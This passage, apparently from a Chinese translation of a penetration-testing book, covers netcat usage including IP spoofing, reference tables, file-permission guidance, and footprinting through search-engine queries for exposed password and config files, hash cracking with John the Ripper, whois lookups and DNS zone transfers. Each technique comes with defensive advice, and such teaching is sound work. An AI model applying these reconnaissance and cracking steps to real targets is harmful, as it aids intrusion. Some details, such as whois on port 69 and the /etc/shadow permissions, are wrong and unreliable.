| 使用源路由连接到远程主机上的端口 | nc -g <gateway> remote_host <port><br>注意：使用 -g 标志最多可以指定八个跳点。使用 -G 标志指定源路由指针。 |
| 伪造源 IP 地址 | 使用 `--s` 标志伪造源 IP 地址：`nc --s spoofed_ip remote_host port`<br>此命令将导致远程主机响应到伪造的 IP 地址。`--s` 标志可以与本表中展示的大多数命令一起使用。 |
| 传输文件 | 在服务器主机上：<br>`nc -v -l -p <port> < <file>`<br><br>在客户端主机上：<br>`nc -v <server_host> <port> > <file>`<br><br>客户端主机也可以监听端口以接收文件。为此，在客户端主机上运行以下命令：<br>`nc -v -l -p <port> > file`<br><br>并在服务器主机上运行以下命令：<br>`nc -v <client_host> <port> < file` |

# ASCII 表

ASCII（美国信息交换标准代码）字符集包含 128 个条目，由控制代码、字母、数字和标点组成。下表以十进制、十六进制和八进制表示法展示了 ASCII 集合。

| 十进制 | 十六进制 | 八进制 | 字符 |
|---|---|---|---|
| 0 | 00 | 000 | NUL (空字符) |
| 1 | 01 | 001 | SOH (标题起始) |
| 2 | 02 | 002 | STX (文本起始) |
| 3 | 03 | 003 | ETX (文本结束) |
| 4 | 04 | 004 | EOT (传输结束) |
| 5 | 05 | 005 | ENQ (询问) |
| 6 | 06 | 006 | ACK (确认) |
| 7 | 07 | 007 | BEL (响铃) |
| 8 | 08 | 010 | BS (退格) |
| 9 | 09 | 011 | TAB (水平制表符) |
| 10 | 0a | 012 | LF (换行) |
| 11 | 0b | 013 | VT (垂直制表符) |
| 12 | 0c | 014 | FF (换页) |
| 13 | 0d | 015 | CR (回车) |
| 14 | 0e | 016 | SO (移出) |
| 15 | 0f | 017 | SI (移入) |
| 16 | 10 | 020 | DLE (数据链路转义) |
| 17 | 11 | 021 | DC1 (设备控制 1) |
| 18 | 12 | 022 | DC2 (设备控制 2) |
| 19 | 13 | 023 | DC3 (设备控制 3) |
| 20 | 14 | 024 | DC4 (设备控制 4) |
| 21 | 15 | 025 | NAK (否定确认) |
| 22 | 16 | 026 | SYN (同步空闲) |
| 23 | 17 | 027 | ETB (传输块结束) |
| 24 | 18 | 030 | CAN (取消) |
| 25 | 19 | 031 | EM (介质结束) |
| 26 | 1a | 032 | SUB (替代) |
| 27 | 1b | 033 | ESC (转义) |
| 28 | 1c | 034 | FS (文件分隔符) |
| 29 | 1d | 035 | GS (组分隔符) |
| 30 | 1e | 036 | RS (记录分隔符) |
| 31 | 1f | 037 | US (单元分隔符) |
| 32 | 20 | 040 | 空格 |
| 33 | 21 | 041 | ! |
| 34 | 22 | 042 | " |
| 35 | 23 | 043 | # |
| 36 | 24 | 044 | $ |
| 37 | 25 | 045 | % |
| 38 | 26 | 046 | & |
| 39 | 27 | 047 | ' |
| 40 | 28 | 050 | ( |
| 41 | 29 | 051 | ) |
| 42 | 2a | 052 | * |
| 43 | 2b | 053 | + |
| 44 | 2c | 054 | , |
| 45 | 2d | 055 | - |


| 十进制 | 十六进制 | 八进制 | 字符 |
| :--- | :--- | :--- | :--- |
| 46 | 2e | 056 | . |
| 47 | 2f | 057 | / |
| 48 | 30 | 060 | 0 |
| 49 | 31 | 061 | 1 |
| 50 | 32 | 062 | 2 |
| 51 | 33 | 063 | 3 |
| 52 | 34 | 064 | 4 |
| 53 | 35 | 065 | 5 |
| 54 | 36 | 066 | 6 |
| 55 | 37 | 067 | 7 |
| 56 | 38 | 070 | 8 |
| 57 | 39 | 071 | 9 |
| 58 | 3a | 072 | : |
| 59 | 3b | 073 | ; |
| 60 | 3c | 074 | < |
| 61 | 3d | 075 | = |
| 62 | 3e | 076 | > |
| 63 | 3f | 077 | ? |
| 64 | 40 | 100 | @ |
| 65 | 41 | 101 | A |
| 66 | 42 | 102 | B |
| 67 | 43 | 103 | C |
| 68 | 44 | 104 | D |
| 69 | 45 | 105 | E |
| 70 | 46 | 106 | F |
| 71 | 47 | 107 | G |
| 72 | 48 | 110 | H |
| 73 | 49 | 111 | I |
| 74 | 4a | 112 | J |
| 75 | 4b | 113 | K |
| 76 | 4c | 114 | L |
| 77 | 4d | 115 | M |
| 78 | 4e | 116 | N |
| 79 | 4f | 117 | O |
| 80 | 50 | 120 | P |
| 81 | 51 | 121 | Q |
| 82 | 52 | 122 | R |
| 83 | 53 | 123 | S |
| 84 | 54 | 124 | T |
| 85 | 55 | 125 | U |
| 86 | 56 | 126 | V |
| 87 | 57 | 127 | W |
| 88 | 58 | 130 | X |
| 89 | 59 | 131 | Y |
| 90 | 5a | 132 | Z |
| 91 | 5b | 133 | [ |
| 92 | 5c | 134 | \ |
| 93 | 5d | 135 | ] |
| 94 | 5e | 136 | ^ |
| 95 | 5f | 137 | _ |
| 96 | 60 | 140 | ` |
| 97 | 61 | 141 | a |
| 98 | 62 | 142 | b |
| 99 | 63 | 143 | c |
| 100 | 64 | 144 | d |
| 101 | 65 | 145 | e |
| 102 | 66 | 146 | f |
| 103 | 67 | 147 | g |
| 104 | 68 | 150 | h |
| 105 | 69 | 151 | i |
| 106 | 6a | 152 | j |
| 107 | 6b | 153 | k |
| 108 | 6c | 154 | l |
| 109 | 6d | 155 | m |
| 110 | 6e | 156 | n |
| 111 | 6f | 157 | o |
| 112 | 70 | 160 | p |
| 113 | 71 | 161 | q |
| 114 | 72 | 162 | r |
| 115 | 73 | 163 | s |
| 116 | 74 | 164 | t |
| 117 | 75 | 165 | u |
| 118 | 76 | 166 | v |
| 119 | 77 | 167 | w |
| 120 | 78 | 170 | x |
| 121 | 79 | 171 | y |
| 122 | 7a | 172 | z |
| 123 | 7b | 173 | { |
| 124 | 7c | 174 | \| |
| 125 | 7d | 175 | } |
| 126 | 7e | 176 | ~ |
| 127 | 7f | 177 | DEL |

## HTTP 状态码

HTTP 服务器针对所有请求都会返回一个 HTTP 状态码。某些 HTTP 服务器不返回状态码的描述文本，而只返回其数值。下表可用于确定 HTTP 响应状态码的含义。在编写自定义的 HTTP 客户端 Shell 脚本时，也可以使用此表对 HTTP 响应结果进行分类和理解。

| 代码 | 描述 |
| :--- | :--- |
| 100 | Continue（继续） |
| 101 | Switching protocols（正在切换协议） |
| 200 | OK（成功） |
| 201 | Created（已创建） |
| 202 | Accepted（已接受） |
| 203 | Non-authoritative information（非权威信息） |
| 204 | No content（无内容） |
| 205 | Reset content（重置内容） |
| 206 | Partial content（部分内容） |
| 300 | Multiple choices（多重选择） |
| 301 | Moved permanently（永久重定向） |
| 302 | Moved temporarily（临时重定向） |
| 303 | See other（查看其他） |
| 304 | Not modified（未修改） |
| 305 | Use proxy（使用代理） |
| 307 | Temporary redirect（临时重定向） |
| 400 | Bad request（错误请求） |
| 401 | Unauthorized（未授权） |
| 402 | Payment required（需要付款） |
| 403 | Forbidden（禁止访问） |
| 404 | Not Found（未找到） |
| 405 | Method not allowed（方法不被允许） |
| 406 | Not acceptable（不可接受） |
| 407 | Proxy authentication required（需要代理身份验证） |
| 408 | Request timeout（请求超时） |
| 409 | Conflict（冲突） |
| 410 | Gone（已消失） |
| 411 | Length required（需要长度） |
| 412 | Precondition failed（先决条件失败） |
| 413 | Request entity too large（请求实体过大） |
| 414 | Request URI too large（请求 URI 过大） |
| 415 | Unsupported media type（不支持的媒体类型） |
| 416 | Requested range not satisfiable（请求范围无法满足） |
| 417 | Expectation failed（期望失败） |
| 500 | Internal server error（内部服务器错误） |
| 501 | Not implemented（未实现） |
| 502 | Bad gateway（错误网关） |
| 503 | Service unavailable（服务不可用） |
| 504 | Gateway timeout（网关超时） |
| 505 | HTTP version not supported（不支持的 HTTP 版本） |




## 重要文件

请确保以下文件已分配正确的权限：

| 文件名 | 用户 | 组 | 权限 |
|---|---|---|---|
| /bin | root | root | drwxr-xr-x |
| /etc | root | root | drwxr-xr-x |
| /etc/aliases | root | root | -rw-r---- |
| /etc/default/login | root | root | -rw------ |
| /etc/exports | root | root | -rw-r----- |
| /etc/hosts | root | root | -rw-rw-r- |
| /etc/hosts.allow | root | root | -rw------- |
| /etc/hosts.deny | root | root | -rw------- |
| /etc/hosts.equiv | root | root | -rw------- |
| /etc/hosts.lpd | root | root | -rw------- |
| /etc/inetd.conf | root | root | -rw------- |
| /etc/issue | root | root | -rw-r----- |
| /etc/login.access | root | root | -rw------- |
| /etc/login.conf | root | root | -rw------- |
| /etc/login.defs | root | root | -rw------- |
| /etc/motd | root | root | -rw-r----- |
| /etc/mltab | root | root | -rw-r----- |
| /etc/netgroup | root | root | -rw------- |
| /etc/passwd | root | root | -rw-r----- |
| /etc/rc.d | root | root | drw------- |
| /etc/rc.local | root | root | -rw------- |
| /etc/rc.sysinit | root | root | -rw------- |
| /etc/securett | root | root | -rw------- |
| /etc/security | root | root | -rw------- |
| /etc/services | root | root | -rw-r--r-- |
| /etc/shadow | root | root | -x---x---- |
| /etc/ssh/ssh_host_key | root | root | -rw------- |
| /etc/ssh/sshd_config | root | root | -rw------- |
| /etc/ssh/ssh_host_dsa_key | root | root | -rw------- |
| /etc/ssh/ssh_host_key | root | root | -rw------- |
| /etc/ssh/ssh_host_rsa_key | root | root | -rw------- |
| /etc/ttys | root | root | -rw------- |
| /root | root | root | drwx------ |
| /sbin | root | root | drwxr-xr-x |
| /tmp | root | root | drwxrwxrwt |
| /usr/bin | root | root | drwxr-xr-x |
| /usr/etc | root | root | drwxr-xr-x |
| /usr/sbin | root | root | drwxr-xr-x |
| /var/log | root | root | drwxr-xr-x |
| /var/log/auditlog* | root | root | -rw------- |
| /var/log/boot* | root | root | -rw------- |
| /var/log/cron* | root | root | -rw------- |
| /var/log/dmesg | root | root | -rw------- |
| /var/log/lastlog | root | root | -rw------- |
| /var/log/maillog* | root | root | -rw------- |
| /var/log/messages* | root | root | -rw------- |
| /var/log/secure* | root | root | -rw------- |
| /var/log/spooler* | root | root | -rw------- |
| /var/log/syslog* | root | root | -rw------- |
| /var/log/utmp* | root | utmp | -rw-rw-r-- |
| /var/log/wtmp* | root | utmp | -rw-rw-r-- |
| /var/log/xferlog | root | root | -rw------- |
| /var/run | root | root | drwxr-xr-x |
| /var/run\*.pid | root | root | -rw-r--r-- |
| | user | user | |
| /var/spool/cron | root | root | drwx------ |
| /var/spool/cron/crontabs/root | root | root | -rw------- |
| /var/spool/mail | root | mail | drwxrwxr-x |
| /var/spool/mail\* | user | user | -rw-rw--- |
| /var/tmp | root | root | drwxrwxrwt |

# 参考中心

# 重要文件

# 第一部分

# 渗透技术
与防御

- 第 1 章 渗透指纹分析
- 第 2 章 扫描与识别
- 第 3 章 信息枚举
- 第 4 章 远程渗透
- 第 5 章 权限提升
- 第 6 章 隐藏踪迹

# 第 1 章

# 渗透指纹分析

**本章内容**：

- 搜索引擎
- 域名注册商
- 区域互联网注册机构
- DNS 反向查找
- 邮件交换
- 区域传输
- 路由跟踪（Traceroute）
- 摘要

**渗透指纹分析**是利用公开可用的方法积累目标初步数据的过程。这些信息可用于更好地理解目标网络架构。本章重点介绍了收集和获取此类信息的不同方式和技巧，包括使用搜索引擎以及域名和网络块注册商。虽然渗透指纹分析是渗透测试方法学中最不光彩的环节，但它是一个重要的第一步。

## 搜索引擎

搜索引擎可用于查找可能指向敏感信息的有趣细节和链接。由于查询是在搜索引擎的数据库上执行的，因此除非直接访问产生的 URL，否则在目标 Web 服务器的日志中不会显眼。

存在许多执行敏感数据创意查询的方法。以下几个部分提供了一些想法。

### 通过搜索职位描述发现管理弱点

许多公司会发布空缺职位的广告，这可以提供大量有关其安全态势的信息。例如，如果一家公司正在积极招聘防火墙专家，那么他们的防火墙配置可能较为薄弱，这一事实可以为黑客提供方向，告知其应重点关注何处。像 [Monster.com](http://www.monster.com/) 这样的简历服务网站是潜在入侵者已知会寻找此类信息的地方。

### 搜索 EDGAR

EDGAR（“电子数据收集、分析和检索”）数据库包含有关上市公司的信息。诸如公司收购等细节特别值得关注的，因为大型组织在合并初期往往难以管理其网络安全。潜在入侵者也可以使用 EDGAR 数据库收集目标组织的季度和年度报告，这可能有助于潜在入侵者更好地理解组织的近期活动。EDGAR 系统位于 [http://www.sec.gov/edgar.shtml](http://www.sec.gov/edgar.shtml)。


## 在日志文件中查找敏感信息

许多知名程序都会将信息写入特定的日志文件。有时，这些日志文件会被错误地放置在 Web 服务器的根目录下。例如，在 http://www.google.com/ 上执行“**Index of**/**dead.letter**”这样的查询，就会返回指向正在提供 dead.letter 文件服务的 Web 服务器的链接（见图 1-1）。请注意，dead.letter 文件是某些电子邮件客户端在用户取消发送邮件时创建的文件，其中可能包含正在撰写的电子邮件的一部分内容。该文件以及其他类似的日志文件可能会向潜在入侵者提供关键且机密的信息。



图 1-1. Web 服务器提供的用户 dead.letter 文件内容

### 搜索引擎

还有许多其他知名的日志文件可以进行搜索。其他示例包括 syslog、maillog、spooler、messages、access_log 和 error_log。

### 搜索 Web 服务器统计数据

许多 Web 应用程序被用来向管理员提供 Web 流量统计数据。这些统计数据通常受密码保护，并可能包含机密信息和 URL。可以利用搜索引擎查找配置错误的主机，这些主机正在提供此类数据。例如，在 **http://www.google.com** 上搜索 **“Index of”** stats，可能会暴露出那些配置错误、向未认证的外部实体提供服务器统计数据的 Web 服务器的位置（见图 1-2）。



| 命中次数 | 字节数 | 文档 |
|---|---|---|
| 39210 | 231455139 | / |
| 24056 | 20431305 | CGI 计数器 |
| 18231 | 19331210 | 404 未找到 |
| 6310 | 13213563 | /slides |
| 4319 | 13567849 | /cgi/showcalendar.pl |
| 1949 | 2098321 | /users/joe/placestoeat.html |
| 1130 | 2429201 | /users/joe/placestoeat.html |
| 1113 | 1345203 | /gbsbs/availbepositions.html |
| 1011 | 235213 | /contact/info.html |
| 943 | 445421 | /cgi/showschedules.cgi |
| 934 | 332143143 | /software/download/beta1.exe |
| 921 | 2341133 | /legal/software-license.html |
| 912 | 9414513414 | /users/jack/mp3z/NOTSUPPOSEDTODOTHIS/download.html |
| 904 | 393432213 | /users/jack/passwords/NOTSUPPOSEDTODOTHIS/download.html |
| 844 | 21341450 | /slides/presentation-december2002.pdf |
| 823 | 563241 | /axxx34xxCOMPANY-SECRET-URL/ |
| 443 | 341374 | /about/home.html |

**图 1-2.** 某个示例公司（somecompanyas anexsample.com）的 Web 服务器统计信息向全球公开提供

### 定位受保护的数据资源

敏感信息通常被放置在 Web 站点中名为“protected”（受保护）、“secret”（机密）、“passwords”（密码）等的目录中。很多时候，这些目录并未受密码保护，因此很容易被搜索到。

例如，考虑 Apache Web 服务器，它通常配置为在目录中存在特定的配置和密码文件时提供身份验证。密码文件通常称为 .htpasswd，不应由 Web 服务器提供。要使用 http://www.google.com 在互联网上搜索此类文件，请执行以下查询：“Index of" .htpasswd。下面是一个 .htpasswd 文件的示例：

```
joe:1WjdCjJCQwGFA
admin:XRouH05gTMIU.
```

此文件中的密码哈希可以使用如“John the Ripper”之类的密码破解工具轻松破解。

```
[hash]$ john .htpasswd
Loaded 2 passwords with 2 different salts (Traditional DES [24/32 4K])
password      (joe)      (admin)
guesses: 2  time: 0:00:00:21 (3)  c/s: 83610  trying: bly045 - Slet20
```

John the Ripper 可在 http://www.openwall.com/john/ 获取。

### 通过配置文件查找敏感信息

各种包含密码、密钥、用户名、内部 IP 地址及其他敏感数据信息的配置文件，当被放置在 Web 根目录中时，会被各种 Web 服务器错误地提供出去。搜索这些文件的关键在于知道它们的名称。一个潜在易受攻击的文件是 sshd_config，它包含 SSH 服务器的配置信息。潜在入侵者可以使用“Index of” sshd_config 作为查询来执行搜索，以找到提供 sshd_config 文件的 Web 服务器。由于此类配置文件包含敏感信息，它们可能会暴露不应被外部实体访问的关键信息。

### 在 Usenet 存档中搜索管理缺陷

新闻组帖子通常包含可作为攻击者辅助的信息。例如，管理员有时会在技术类 Usenet 组中发帖，就某些主题寻求帮助。此类帖子可能会泄露大量信息，并提醒入侵者管理员正在配置某些服务时遇到困难。可以使用 http://groups.google.com/ 来搜索此类泄露信息的帖子。


### 防御搜索引擎暴露的漏洞

强烈建议执行以下防御策略，以最大程度地减少与搜索引擎和 Web 服务器配置错误导致敏感信息暴露相关的风险：

- 不要以可能暴露与安全相关管理弱点的方式发布职位空缺信息。
- 对 Web 服务器配置及其允许提供的数据进行定期审计是个好主意。如果你可以访问 Web 服务器本身，那么你可以从 Web 根目录内部搜索特定信息。例如，以下命令将列出所有包含单词“log”的文件名：

```
ls -alR /var/web-root/html | grep log
```

还可以搜索静态数据中的内容。要在 Web 根目录中包含的文件内容中搜索特定单词，例如“password”，可以使用：

```
grep -R password /var/web-root
```

如果无法访问本地 Web 服务器文件系统，wget 是一个很好的命令行工具，可用于镜像 Web 站点。一旦 Web 站点内容在本地可用，就可以对数据执行如前所述的 grep 操作。wget 的使用示例如下：

```
wget -m -np http://www.somecompanyasanexample.com/
```

wget 工具可从 http://wget.sunsite.dk/ 获取。

- 必须指示管理员不要使用真实姓名和电子邮件地址在技术新闻组和消息板上发布职位空缺信息。

# 域名注册商

一个组织可能在不同的地点拥有许多网络。通过执行“whois”查询可以发现与特定组织相关的域名。大多数域名注册商都有一个相关的公共 whois 服务器（监听端口 69），whois 客户端可以连接到该服务器以查询域名所有者的信息。域名 whois 查询返回的信息包括相关的 POC（联系人）和 DNS IP 地址，这对于确定目标的网络存在很有用。

由于域名可以通过众多注册商注册，因此你必须首先查询域名所注册的注册商，然后从相关的注册商处查询域名记录。为了查询正确的注册商，必须在公共 whois 服务器 whois.crsnic.net 上执行 whois 查询。

> 许多注册商限制了以下章节中提到的查询类型。如果以下任何查询未从特定的 whois 服务器得到肯定响应，它们可能适用于另一个注册商的 whois 服务器。

### 通过域名查询域名注册商记录

要查询 somecompanyasanexample.com，你必须使用命令行 whois 工具（包含在大多数 Unix 和 Linux 发行版中）在 whois.crsnic.net 上执行 whois 查询，如下所示：

```bash
$ whois -h whois.crsnic.net somecompanyasanexample.com
{whois.crsnic.net}

Whois Server Version 1.3

Domain names in the .com, .net, and .org domains can now be
registered with many different competing registrars. Go to
http://www.internic.net for detailed information.

Domain Name: SOMECOMPANYASANEXAMPLE.COM
Registrar: SOME REGISTRAR, INC.
Whois Server: whois.somewhoiserver.com
Referral URL: http://www.someregistrarsanexample.com
Name Server: NS1.SOMEEEXAMPLESERVER.NET
Name Server: NS2.SOMEEEXAMPLESERVER.NET
Updated Date: 05-nov-2001

>>> Last update of whois database: Sat, 11 Jan 2003 17:11:52 EST <<<
```

上述查询将返回域名实际注册的注册商及其 whois 服务器。在我们前面的例子中，somecompanyasanexample 的注册商的 whois 服务器是


...com 的 whois 服务器是 whois.somewhoisserver.com。现在，我们必须查询 whois.somewhoisserver.com：

```shell
[bash]$ whois -h whois.somewhoisserver.com somecompanyasanexample.com
[whois.somewhoisserver.com]
NOTICE AND WARNING BANNER HERE
```

注册人：

Lname,_fname(SOMEHANDLE) username@somecompanyasanexample.com
1234 Some St.
Somecity,_someSTATE99999
some_country

域名：somecompanyasanexample.com

管理员联系人、技术联系人：

Lname2, fname2(SOMEHANDLE2) username2@somecompanyasanexample.com
5678 Somewhere St.
somewhereCity, SOMESTATE99999
some_COUNTRY
(123)456-7890

记录到期日 2004-12-31
记录创建日 2002-12-31
数据库最后更新于 2003-01-12 03:44:29 EST。

按列出的顺序排列的域名服务器：

NS1.SOMEEXAMPLESERVER.NET10.0.0.1
NS2.SOMEEXAMPLESERVER.NET192.168.1.1

### 通过域名前缀查询域名注册商记录

为了搜索以“somecompany”开头的域名，
可以使用以下查询：

```shell
[bash]$ whois -h whois.crsnic.net “somecompany.”
[whois.somewhoisserver.com]
Whois.server version 1.x
```

NOTICE AND WARNING BANNER HERE

SOMECOMPANY.COM
SOMECOMPANY.ORG
SOMECOMPANYASANEXAMPLE.COM
SOMECOMPANYTHATDOESNOTEXIST.COM
SOMECOMPANYTHATDOESNOTEXIST.ORG
SOMECOMPANYZZZZ.ORG

要单独提取一条记录，使用"xxx"查找它，其中xxx是前面列表中显示的其中一条记录。如果记录相同，使用"=xxx"查找它们，以便接收每条记录的完整显示。

>> whois 数据库最后更新：Sat, 11 Jan 2003 18:00:01 EST

## 通过句柄查询域名注册商记录

whois 服务器上列出的个人都有一个与其关联的句柄。你可以查询特定的句柄以找到相关的联系信息：

```
[bash]$ whois -h whois.somewhoisserver.com "handle SOMEHANDLE"
[whois.somewhoisserver.com]
NOTICE AND WARNING BANNER HERE
```

Lastname, Firstname (SOMEHANDLE) username@somecompanyasanexample.com
1234 Some St.
Somecity, SOMESTATE 99999
SOME COUNTRY

数据库最后更新于 2003-01-12 03:44:29 EST。

## 通过电子邮件查询域名注册商记录

whois 服务器上列出的个人通常有相关的电子邮件地址。可以通过提供完整的电子邮件地址或其一部分来搜索用户。因此，查询

```
whois -h whois.somewhoisserver.com "@somecompanyasanexample.com"
```

将返回记录中电子邮件地址包含域名 @somecompanyasanexample.com 的个人姓名。

## 防止因域名注册商记录导致的泄露

确保 whois 记录中列出的电子邮件地址以不同于您组织名称的域名结尾。这将使他人难以通过电子邮件查询来获取您的记录。此外，一些域名注册商提供将其联系信息放在 whois 记录中，而不是您的个人联系信息。利用此选项以防止您的个人联系信息暴露在潜在入侵者面前是个好主意。

## 域名注册商


## 区域互联网注册机构

与域名类似，组织可以分配 IP 地址块。可路由 IP 地址由四个主要的区域互联网注册机构（RIRs）分配给组织，如表 1-1 所示。

> 表 1-1 包含主要四大 RIRs 的列表。然而，一些新的 RIRs 计划在近期内成立。详情请参见 http://www.aso.icann.org/。

> 许多注册商限制在以下章节中提到的查询类型。如果以下查询中任何一个在某个特定的 whois 服务器上未得到肯定响应，它们可能只是在另一个注册商的 whois 服务器上有效。

### 通过公司前缀查询 RIR 记录

为了找到拥有者为公司名称的记录，可以执行以下 whois 查询：

```
whois -h whois.rirwhoisserver.net "companynameprefix"
```

搜索 RIR 记录中以单词“somecompanyasanexample”开头的公司名称：

```
[bash]
$ whois -h whois.rirwhoisserver.net "somecompanyasanexample"
Some Company (SOMECA)
Some Company As An Example (SOMECA)

## RIR Whois database, last updated on 2003-01-11 01:00
```

| 名称 | Whois 服务器 | 区域 |
| :--- | :--- | :--- |
| American Registry of Internet Numbers (ARIN) [http://www.arin.net/](http://www.arin.net/) | whois.arin.net | 北美、部分加勒比海地区以及赤道以南的非洲 |
| Asia Pacific Network Information Centre (APNIC) [http://www.apnic.net/](http://www.apnic.net/) | whois.apnic.net | 亚太地区 |
| Réseaux IP Européens Network Coordination Centre (RIPE NCC) [http://www.ripe.net/](http://www.ripe.net/) | whois.ripe.net | 欧洲、中东、中亚和赤道以北的非洲国家 |
| Latin American and Caribbean Internet Addresses Registry (LACNIC) [http://lacnic.net/](http://lacnic.net/) | whois.lacnic.net | 拉丁美洲和加勒比地区 |

**表 1-1.** 四个区域互联网注册机构（RIRs）

### 通过 IP 地址或网络块查询 RIR 记录

要找出某个 IP 地址块的拥有组织，尝试使用此形式的命令：

```
whois -h whois.rirwhoisserver.net ipaddressorblock
```

地址 192.168.1.0/24 属于分配给不可路由 IP 地址的块。有关不可路由 IP 范围的更多信息，请参见 RFC 1918，可在 http://www.faqs.org/rfcs/rfc1918.html 获取。让我们假设 192.168.1.0/24 是一个有效的且可路由的 IP 范围，用于我们的示例。如果我们要在 whois.arin.net 上搜索此块，我们必须尝试进行以下查询：

```
[bash]$ whois -h whois.arin.net 192.168.1.0
[whois.arin.net]
OrgName: Internet Assigned Numbers Authority
OrgID: IANA
NetRange: 192.168.0.0 - 192.168.255.255
CIDR: 192.168.0.0/16
NetName: IANA-CEMl
NetHandle: NET-192-168-0-0-1
Parent: NET-192-0-0-0-0
NetType: IANA Special Use
NameServer: BLACKHOLE-1.IANA.ORG
NameServer: BLACKHOLE-2.IANA.ORG
Comment: This block is reserved for special purposes.
Please see RFC 1918 for additional information.
RegDate: 1994-03-15
Updated: 2002-09-16
OrgTechHandle: IANA-ARIN
OrgTechName: Internet Corporation for Assigned Names and Number
OrgTechPhone: +1-234-567-8900
OrgTechEmail: res-ip@iana.org
## ARIN Whois database, last updated 2003-01-12 20:00
## Enter ? for additional hints on searching ARIN's Whois database.
```

### 通过句柄查询 RIR 记录

列在 RIR whois 服务器上的个人 POC 和组织都有一个与其关联的句柄。你可以查询特定的句柄以找到相关的联系信息：

```
whois -h whois.rirwhoisserver.com "HANDLE"*
```


要搜索 Some-Company-As-An-Example 的句柄（SOMECA），我们将执行以下操作：

```
[bash]$ whois -h whois.rirwhoisserver.net "#SOMECA"
{whois.rirwhoisserver.net}

OrgName:	Some Company As An Example
OrgID:	SOMECA
Address:	1234 Some St.
Country:	SOME COUNTRY
Comment:

RegDate:	1998-08-01
Updated:	1998-08-01

## RIR Whois database, last updated on 2003-01-11 01:00
```

### 通过电子邮件查询 RIR 记录

列在 whois 服务器上的个人通常有相关的电子邮件地址。可以通过提供完整的电子邮件地址或其一部分来搜索用户。因此，以下查询将返回电子邮件地址包含域名 @somecompanysanexample.com 的个人姓名：

```
[bash]$ whois -h whois.rirwhoisserver.com "@somecompanysanexample.com"
{whois.rirwhoisserver.com}

Iname, Pname (LASTFIRST-RIR) username@somecompanysanexample.com +
(123)456-7890

## RIR Whois database, last updated on 2003-01-11 01:00
```

### 防止因 RIR 记录导致的泄露

RIR 记录中列出的电子邮件地址应以不同于您组织名称的域名结尾。这将使他人难以通过电子邮件查询来获取您的记录。一些 RIR 允许使用邮政信箱地址作为个人和组织联系人的地址。为了阻止个人联系信息暴露在潜在入侵者面前，只要可能，都应利用此选项。

## DNS 反向查询

DNS 反向查询是指向 DNS 服务器查询与特定 IP 地址关联的主机名的行为。


可以通过使用 `host` 命令执行反向查找：

```
[bash]$ host 10.0.0.3
3.0.0.10.in-addr.arpa domain name pointer
company3-payroll-ftpsd.somecompanyasanexample.com.
```

该查询结果不仅告诉我们该主机可能正在运行 FTP 服务器，还告知了我们它的位置，即 13 号房间！

从上述示例中可以明显看出，DNS 反向查找可能会揭示各种不应被外部用户获取的主机信息。为了最大程度地减少此类信息的暴露，可以采取以下预防措施：

- 不要分配可能会揭示网络中主机任何类型信息的主机名。
- 考虑分配将 IP 地址作为主机名一部分的主机名，例如 3-0-0-10.somecompanyasanexample.com。这种方案有助于从管理角度组织可用的主机，同时不向外部实体泄露额外信息。

要了解组织邮件服务器的主机名和 IP 地址，可以使用命令行 `dig` 工具查询域名的邮件交换（MX）记录：

```
[bash]$ dig mx somecompanyasanexample.com
<<>> DiG 9.2.1 <<>> mx dhanjani.com
;; Global options: printcmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1234
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2

;; QUESTION SECTION:
;somecompanyasanexample.com.       IN       MX

;; ANSWER SECTION:
somecompanyasanexample.com.    86400 IN  MX     10
mail.somecompanyasanexample.com.
```


```
;; AUTHORITY SECTION:
somecompanyasanexample.com. 4 IN NS
ns1.someexampleleserver.net.

somecompanyasanexample.com. 4 IN NS
ns2.someexampleleserver.net.

;; ADDITIONAL SECTION:
ns1.someexampleleserver.net. 678 IN A 10.0.0.1
ns2.someexampleleserver.net. 141521 IN A 192.168.1.1
```

```
;; Query time: 102 msec
;; SERVER: 10.1.1.1#53(10.1.1.1)
;; WHEN: Mon Jan 13 04:04:38 2003
;; MSG SIZE rcvd: 141
```

dig 命令查询了我们的 ISP 的默认 DNS 服务器（10.1.1.1），以获取 **somecompanyasanexample.com** 的 MX 记录，并返回了它的邮件服务器：mail.someexampleleserver.com。

## 区域传输

DNS 服务器通常被配置为充当主服务器或从服务器。这样做的目的是提供层次结构和冗余。当从 DNS 服务器联系主 DNS 服务器以更新其区域信息时，就会发生区域传输。通过区域传输获得的 DNS 主机名信息可能会揭示组织中特定主机的角色或位置。很多时候，主 DNS 服务器被错误地配置为允许任何主机执行区域传输。

### 使用 host 命令执行区域传输

要尝试针对特定组织进行区域传输，需要一个 DNS 服务器 IP 地址。如果没有此信息，可以尝试对目标域名进行 whois 查询，这将提供相关的 DNS IP 地址。一旦获得 DNS 服务器 IP 地址，就可以使用 host 命令尝试进行区域传输：

```
host -l domain DNSIP
```

例如：

```
[bash]$ host -1 somecompanyasanexample.com 10.0.0.1
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
Aliases:
somecompanyasaneexample.net SOA ns1.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
somecompanyasaneexample.net name server ns1.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
Somecompanyasaneexample.net name server ns2.someexampleserver.net.
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
somecompanyasaneexample.com has address 192.168.1.10
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
somecompanyasaneexample.com mail is handled by 10 mail.somecompanyasane
example.com
Using domain server:
Name: 10.0.0.1
Address: 10.0.0.1#53
